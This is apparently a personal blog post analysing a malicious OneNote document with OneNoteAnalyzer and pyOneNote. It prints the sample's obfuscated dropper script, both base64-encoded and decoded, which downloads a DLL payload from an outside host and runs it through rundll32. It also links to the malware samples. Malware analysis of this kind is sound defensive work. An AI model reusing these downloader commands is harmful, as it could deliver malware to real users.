 +++
title = "Exploring OneNote Forensic tools"
draft = false
tags = ["OneNote","Maldocs",".one"]
categories = ["Malware"]
ShowToc = true
author = ["connar"]
+++

## Intro
In this post, I will be writing my notes regarding some OneNote forensic tools that I got my hands on, but also the analysis of a sample I got from MalwareBazar to practise. The tools are:  
- OneNoteAnalyzer.exe
- pyonenote.py

The sample I practised on is the following:
- https://bazaar.abuse.ch/download/9019a31723e8dde778639cf5c1eb599bf250d7b6a3a92ba0e3c85b0043644d93/

## Viewing the sample
Opening the sample in an online .one viewer, we can observe the following:

![](/posts/onenote/onenote1.png)  

We can see that a .cmd script is placed at the 'Open' button which is what the document asks the user to double click. It obviously tries to convince the user into running the .cmd script. Let's use the OneNoteAnalyzer.exe tool to extract this script along with other relevant information attached to the document.

## OneNoteAnalyzer
The use of this tool is simple. We only need to run the command ```OneNoteAnalyzer.exe --file [file]``` and get the output and extracted files:  

![](/posts/onenote/onenote2.png)  

Let's also use the pyonenote.py tool before proceeding to analyze the extracted files.

## pyonenote
We can get the pyonenote tool from the following repo:  
- https://github.com/DissectMalware/pyOneNote  

Running the script finds the same information as the previous tool, just in a more verbose way:  

![](/posts/onenote/onenote4.png)  

## Extracted files - Open.cmd

The file that is of most interest to us is the open.cmd file. Opening the file and viewing its contents, we see the following command:
```cmd
powershell.exe [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('DQpAZWNobyBvZmYNCg0KcG93ZXJzaGVsbCBJbnZva2UtV2ViUmVxdWVzdCAtVVJJIGh0dHBzOi8vYXJhZGNhcGl0YWwuY29tL01wRDhZay8wMC5naWYgLU91dEZpbGUgQzpccHJvZ3JhbWRhdGFcYmlnLmpwZw0KY2FsbCBydSUxbDMyIEM6XHByb2dyYW1kYXRhXGJpZy5qcGcsRGxsUmVnaXN0ZXJTZXJ2ZXINCg0KZXhpdA0K')) > C:\ProgramData\in.cmd&&start /min C:\ProgramData\in.cmd ndl
```
Decoding the base64 code, we end with the following command:
```cmd
@echo off

powershell Invoke-WebRequest -URI https://aradcapital.com/MpD8Yk/00.gif -OutFile C:\programdata\big.jpg
call ru%1l32 C:\programdata\big.jpg,DllRegisterServer

exit
```

So basically this cmd file decodes an encoded base64 string, saves it in another cmd file named ```in.cmd``` and then runs it with the ndl parameter which specifies that directory names are not to be logged.

This decoded base64 string as we saw by decoding it is another powershell command that downloads file named ```00.gif``` and outputs it in another file named ```big.jpg```. Then it proceeds to run it by using rundll32 in an obfuscated way. So we can safely assume this file is a .dll file.

All that's left to do is analyze the DLL which can be found at:  
- https://bazaar.abuse.ch/sample/5fb7f3fac0a9b9ab243ee642a0775500c524166ef075035c9510ccbab76ad633/

## Extracted files - big.jpg
Downloading the file and running the ```file``` command on it, we get the following info:
```cmd
┌──(connar㉿kali)-[~/blog/oneNote_samples]
└─$ file big.jpg 
big.jpg: PE32 executable (DLL) (GUI) Intel 80386, for MS Windows
```

Initially opening the dll in Ghidra, it seems to be packed. For this purpose I uploaded it to any.run to observe its activity, and got the following feedback:  

![](/posts/onenote/onenote3.png)  

Searching various strings, hashes and even bytes, I found out that there was a debate of whether this malware was of the family ```Matanbuchus``` but it ended up being related to ```PikaBot``` and was named ```Beep-Malware```.  I will try and analyze this dll in [another post](https://connar.github.io/posts/beepmalware/) and share what I learned along the way:) 

That is it for this post!

**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://www.youtube.com/watch?v=Yhq_bd3ppBw">Guided Hacking: <i>Malicious OneNote Documents - Malware Analysis</i></a></li>
        <li> [2] <a href="https://github.com/pan-unit42/tweets/blob/master/2023-02-07-IOCs-for-probable-Matanbuchus-activity.txt">pan-unit42: 2023-02-07-IOCs-for-probable-Matanbuchus-activity.txt</i></a></li>
</i></a></li>
    </ul>
</blockquote>